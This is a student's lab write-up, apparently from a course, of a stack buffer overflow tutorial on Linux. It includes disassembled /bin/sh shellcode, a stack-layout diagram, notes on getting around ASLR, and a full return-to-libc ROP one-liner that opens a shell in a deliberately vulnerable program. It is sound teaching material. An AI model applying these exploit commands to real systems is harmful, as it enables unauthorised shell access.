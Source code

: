 
# Overview

The aim of this project is to demonstrate a basic stack smashing attack on a simple Hello World program. Though this is simple, it's also a good overview how a buffer overflow can be used to gain shell access, and also walks us through the protections the operating system has to protect from these attacks.

For this project, I’m using a relatively newer installation of Arch. This means that I may run into trouble with, as the top of this tutorial indicates, newer versions of Linux. 

#### Some assembly required
I began by compiling and running the provided shell.c code. Understanding the assembly code: it seems to load the string bin/sh into somewhere in memory, and then executes it by using the sys call command, which I think executes whatever is in a certain register. I also understand the idea of labeling and using the hex code 0xdeadbeef to mark where in memory it is.

At first, I did not think that it was working at all. I began to do the rest and was running into trouble. Then I discovered that it was running the whole time and I’d been trying to do the rest of the commands from within the execvp shell! (It seemed to be missing some environment variables).

(Note: On Arch, when I run objdump, the output is different from what the tutorial indicates it should be. Instead of one line with ``` 4004d6:       69 6e 2f 73 68 00 ef    imul ```, my output is spread into multiple lines, which I guess must be some kind of breaking down of the operation. When I run “cat shell code” it is the same, however. Upon switching to Ubuntu it is the same.)

The entire program dumps to:
```
00000000004004aa <needle0>:
  4004aa:	eb 0e                	jmp    4004ba <there>

00000000004004ac <here>:
  4004ac:	5f                   	pop    %rdi
  4004ad:	48 31 c0             	xor    %rax,%rax
  4004b0:	b0 3b                	mov    $0x3b,%al
  4004b2:	48 31 f6             	xor    %rsi,%rsi
  4004b5:	48 31 d2             	xor    %rdx,%rdx
  4004b8:	0f 05                	syscall 

00000000004004ba <there>:
  4004ba:	e8 ed ff ff ff       	callq  4004ac <here>
  4004bf:	2f                   	(bad)  
  4004c0:	62                   	(bad)  
  4004c1:	69                   	.byte 0x69
  4004c2:	6e                   	outsb  %ds:(%rsi),(%dx)
  4004c3:	2f                   	(bad)  
  4004c4:	73 68                	jae    40052e <__libc_csu_init+0x4e>
	...
```

### Learn Bad C in only 1 hour!
The victim.c code seems fairly simple. All it does is take in a char array and print it. Of course, if we overflow the array, fun can happen…
Also: It is impressive how extensive the protections that the OS puts in are these days. I can see how all the things we are disabling would make our ROP attack impossible: if we can’t find or execute our code, our attack is worthless. Successful exploits on a live machine must be very complicated.

Here is a simple diagram of how our code is trying to work. We're attempting to turn:
```
 _______________
|name array     |<- &name
|(64 bytes)     |
|               |
|_______________|
|RBP (8 bytes)  |
|ReturnAddr     |
```
into:

```
 _______________
|shellcode      |<- &name
|(32 bytes)     |
|0 (32 bytes    |
|_______________|
|0 (8 bytes)  	|
|&name			|

```

_(Sam: I had to use “x86_64” for the architecture since my Arch install did not recognize the ‘arch’ architecture. My address was 0x7fffffffe5a0.)_

That way, when the program finishes, it goes to execute the address of shellcode, instead of the return address.

### The importance of being patched:
The code breaks down as follows:
First, obtain the address of the code in memory using the ps command. Then use the program to print out the location of the char array. Find out the offset to know how far you have to write the buffer to overflow it. Just as with the example, my code was 88 away from the address.

Next, the xxd script inserts the entire shell script as an input in the char array. This, followed by 40 zeros and the address of the _name_ array, once again causes the program to jump to and execute the stored therein (which launches ```/bin/sh```) This is the same kind of buffer overflow as the previous one. What this exploit offers over the first is it defeats ASLR, by dynamically finding the address of the program in memory.

Note: Upon visual inspection, it seems my version of Ubuntu organizes the stack at a different position in memory than the example code assumed. Specifically, the tutorial assumed that it would be prefixed with ```0x7fff```, and that would be the offset that the stack pointer offsets from. (That’s why it does ``0x7fff$sp+88``). I noticed that sometimes my program would be running at ```0x7ffe```, however, and that is why it was failing. If I hardcode that prefix when running the exploit, I successfully get a shell. So we require a bit of visual inspection to find which script to run. 

### Go-go-gadgets:
I used the revised code linked at the top of the page. Using this, I generated code based on the linked code. The variables we had were:

```
buffer:		0x7fffffffe5a0
libc: 		0x7ffff7a15000
system:		0x7ffff7a15000 + 0x46590 = 0x7ffff7a5b590
gadgets:	0x7ffff7a15000 + 0x22b9a = 0x7ffff7a37b9a
bash: 		0x7fffffffe5a0 + 64d + 8d + 24d = 0x7fffffffe600 
```
The code we used to use the ROP exploit was therefore:

```
(((printf %0144d 0; printf %016x 0x7ffff7a37b9a | tac -rs..; printf %016x 0x7fffffffe600 | tac -rs..; printf %016x 0x7ffff7a5b590 | tac -rs.. ; echo -n /bin/sh | xxd -p) | xxd -r -p) ; cat) | ./victim
```

Which loads the right addresses onto the stack! This allows the program to return to the gadget instead of the OS, which executes our program!
